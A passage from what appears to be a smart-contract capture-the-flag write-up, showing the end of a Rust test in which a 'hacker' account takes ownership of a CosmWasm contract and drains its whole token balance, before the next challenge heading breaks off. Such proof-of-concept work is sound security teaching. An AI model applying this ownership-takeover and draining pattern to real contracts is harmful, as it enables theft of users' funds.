 ```rust
            &ExecuteMsg::AcceptOwnership {},
            &[],
        )
        .unwrap();
        
        // Verify that "hacker" is the new owner of the contract
        let state: State = app
            .wrap()
            .query_wasm_smart(contract_addr.clone(), &QueryMsg::State {})
            .unwrap();

        assert_eq!(
            state,
            State {
                current_owner: Addr::unchecked("hacker"),
                proposed_owner: None,
            }
        );

        // Get balance of contract
        let old_contract_bal = app.wrap().query_balance(contract_addr.clone(), DENOM).unwrap();

        // "hacker" sending all tokens to themselves
        let steal_funds_msg: CosmosMsg = CosmosMsg::Bank(BankMsg::Send { 
            to_address: "hacker".to_string(), 
            amount: vec![coin(old_contract_bal.amount.u128(), DENOM)]
        });

        app.execute_contract(
            Addr::unchecked("hacker"),
            contract_addr.clone(),
            &ExecuteMsg::OwnerAction { msg: steal_funds_msg },
            &[]
        ).unwrap();

        // Assert contract now has no tokens
        let new_contract_bal = app.wrap().query_balance(contract_addr.clone(), DENOM).unwrap();
        assert_eq!(new_contract_bal.amount, Uint128::zero());

        // Assert "hacker" has received all the tokens
        let hacker_bal = app.wrap().query_balance(Addr::unchecked("hacker").clone(), DENOM).unwrap();
        assert_eq!(hacker_bal.amount, old_contract_bal.amount);
    }
```

---

## Challenge 06: *Hofund*

### Description

